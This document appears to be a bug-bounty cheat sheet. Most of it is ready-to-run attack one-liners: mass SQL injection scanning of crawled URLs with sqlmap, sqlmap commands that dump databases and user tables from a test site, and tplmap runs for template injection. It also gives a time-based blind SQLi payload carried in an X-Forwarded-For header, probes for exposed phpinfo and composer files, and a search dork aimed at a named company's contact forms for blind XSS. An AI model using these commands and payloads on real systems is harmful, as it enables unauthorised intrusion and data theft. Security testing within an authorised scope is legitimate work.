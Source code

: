## SQLi One Linear :-

- cat [target.com](http://target.com/) | waybackurls | grep "\?" | uro | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
- subfinder -dL domains.txt | dnsx | waybackurls | uro | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

## Dump-Data :-

- sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dbs (Databases)
- sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --tables -D acuart (Dump DB tables )
- sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --columns -T users (Dump Table Columns )
- sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dump -D acuart -T users

---

## SSTI :-

FOR Testing SSTI and tplmap tool :-

- git clone https://github.com/epinna/tplmap.git
- ./tplmap.py -u "[domain.com/?parameter=SSTI*](http://domain.com/?parameter=SSTI*)"

---

- httpx -l live_subs.txt --status-code --title -mc 200 -path /phpinfo.php
- httpx -l live_subs.txt --status-code --title -mc 200 -path /composer.json

---

######## Testing for xss and sqli at the same time >_< ##############

- cat subdomains.txt | waybackurls | uro | grep "\?" | httpx -silent > param.txt
- sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
- cat param.txt | kxss

---

## Blind SQL Injection :-

Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

## Blind XSS :-

site:opsgenie.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form"

## Go to xss.report website and create an account to test for blind xss Vulnerbilitites

---
